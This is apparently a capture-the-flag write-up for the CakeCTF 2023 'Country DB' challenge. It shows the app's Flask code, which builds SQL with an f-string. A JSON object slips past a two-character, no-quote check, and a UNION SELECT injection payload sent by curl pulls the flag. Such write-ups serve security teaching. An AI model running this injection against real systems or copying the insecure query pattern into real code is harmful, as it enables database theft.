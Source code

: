 # Country DB

## Description

> Do you know which country code 'CA' and 'KE' are for?
>
> Search country codes [here](http://countrydb.2023.cakectf.com:8020/)!
>
> Attachments: country_db_fc1912477a433a93f7d75a9b80389582.tar.gz

<details><summary>Attachment file tree</summary>

```console
$ tree country_db
country_db
├── app.py
├── docker-compose.yml
├── Dockerfile
├── init_db.py
├── templates
│   └── index.html
└── uwsgi.ini

2 directories, 6 files
```

</details>

## Solution

Looking at the source code.

```python
# init_db.py

# (snip)

FLAG = os.getenv("FLAG", "FakeCTF{*** REDACTED ***}")

# (snip)

conn.execute("""CREATE TABLE flag (
  flag TEXT NOT NULL
);""")
conn.execute(f"INSERT INTO flag VALUES (?)", (FLAG,))

# (snip)
```

```python
# app.py

# (snip)

def db_search(code):
    with sqlite3.connect("database.db") as conn:
        cur = conn.cursor()
        print(f"SELECT name FROM country WHERE code=UPPER('{code}')")
        cur.execute(f"SELECT name FROM country WHERE code=UPPER('{code}')")
        found = cur.fetchone()
    return None if found is None else found[0]

# (snip)

@app.route("/api/search", methods=["POST"])
def api_search():
    req = flask.request.get_json()
    if "code" not in req:
        flask.abort(400, "Empty country code")

    code = req["code"]
    if len(code) != 2 or "'" in code:
        flask.abort(400, "Invalid country code")

    name = db_search(code)
    if name is None:
        flask.abort(404, "No such country")
```

- The flag is in the flag table in DB
- The POST /api/search endpoint has the restriction that requect body `code` must be length 2 and should not contain a single quotes, but this can be bypassed with objects like `{"a":1,"b":2}`
- The Python `code` dict is embedded with f-string to create the SQL query. This can be exploited for SQL Injection.
- Create a payload to execute the SQL query `SELECT name FROM country WHERE code=UPPER('') UNION SELECT flag FROM flag;--` and get the flag.

Tested in Python Console:

```python
>>> code = {"') UNION SELECT flag FROM flag;--":1,"b":2}
>>> print(f"SELECT name FROM country WHERE code=UPPER('{code}')")
SELECT name FROM country WHERE code=UPPER('{"') UNION SELECT flag FROM flag;--": 1, 'b': 2}')
```

Exploit:

```console
$ curl http://localhost:8020/api/search -H "Content-Type: application/json" -d "{\"code\":{\"') UNION SELECT flag FROM flag;--\":1,\"b\":2}}"
{"name":"FakeCTF{*** REDACTED ***}"}
```
